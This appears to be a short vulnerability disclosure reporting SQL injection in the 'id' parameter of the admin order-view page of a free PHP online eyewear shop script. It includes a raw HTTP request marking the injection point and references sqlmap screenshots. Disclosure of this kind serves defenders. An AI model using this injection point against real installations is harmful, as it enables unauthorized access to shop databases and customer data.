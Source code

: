 # Online Eyewear Shop Website has SQL injection

BUG_Author: Murasaki

URL: /oews/admin/?page=orders/view_order&id=*
Link：https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

Parameter "id" (GET), exists SQL injection vulnerability

SQL injection is found in the administrator background order interface, and the results are obtained by using the data package sent by the administrator authority.

The data package is as follows
```
GET /oews/admin/?page=orders/view_order&id=4* HTTP/1.1
Host: 192.168.8.131
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.8.131/oews/admin/?page=orders
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2alcecghcccelhr289f3t3a01u
Connection: close
```

![](https://github.com/1MurasaKi/Eyewear_Shop_SQLi/blob/main/view_order.png?raw=true)

![](https://github.com/1MurasaKi/Eyewear_Shop_SQLi/blob/main/SQLmap.png?raw=true)
